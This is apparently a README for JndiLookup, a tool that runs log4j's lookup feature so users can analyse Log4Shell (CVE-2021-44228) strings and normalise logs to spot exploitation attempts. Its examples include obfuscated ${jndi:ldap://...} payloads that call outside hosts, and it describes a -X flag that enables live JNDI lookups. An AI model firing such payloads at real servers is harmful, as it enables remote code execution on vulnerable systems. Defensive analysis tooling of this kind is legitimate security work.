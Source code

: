 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts

For example : cat access.log | java -jar JndiLookup.jar


If you pass a string to the command line, the tool will convert this string and exits (please escape all the '$' characters).

For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\${jndi:\${lower:l}\${lower:d}a\${lower:p}://world443.log4j.bin\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ("-X" to be passed as the first parameter) ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.

For example : java -jar JndiLookup.jar -X "\${jndi:ldap://w8pcb14reujq65vic39pz9amv.canarytokens.com/a}"



The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx

Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs

[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]


Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.
